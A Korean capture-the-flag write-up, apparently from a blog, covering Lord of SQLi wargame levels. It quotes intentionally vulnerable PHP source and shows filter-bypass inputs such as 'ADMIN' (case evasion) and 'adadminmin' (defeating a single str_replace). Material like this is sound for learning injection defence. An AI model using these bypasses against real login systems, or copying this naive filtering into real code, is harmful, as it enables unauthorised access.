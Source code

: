 

쿼리문의 결과에서 id=admin을 요구하는데 admin 자체가 필터링되어 있다. 하지만 문자열을 합치는 방법은 너무나 많다.

라고 생각해서 `ad+min`을 넣었더니 `ad min`으로 인식한다... concat함수도 문자를 뜻하기 위해 `'` 기호를 써야하는데 해당 기호도 필터링되어 있다...

<br>

## writeup

근데 생각해보면 대소문자에 대한 필터링이 없기에 그냥 대문자로 admin을 만들면 된다.

```
id=ADMIN
```

오우오우

![image-20220608175222553](../img/image-20220608175222553.png)

<br><br><br>

-----


# LOS: vampire

## 삽질

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  $_GET[id] = strtolower($_GET[id]);
  $_GET[id] = str_replace("admin","",$_GET[id]); 
  $query = "select id from prob_vampire where id='{$_GET[id]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("vampire"); 
  highlight_file(__FILE__); 
?>
```

이번엔 대문자를 넣어도 소문자로 변경되게끔 만들어버렸다. 하지만 이전처럼 admin 필터링이 `preg_match` 함수가 아닌 `str_replace`함수이기에 우회하기 편해졌다.

<br>

## writeup


```
id=adadminmin
```
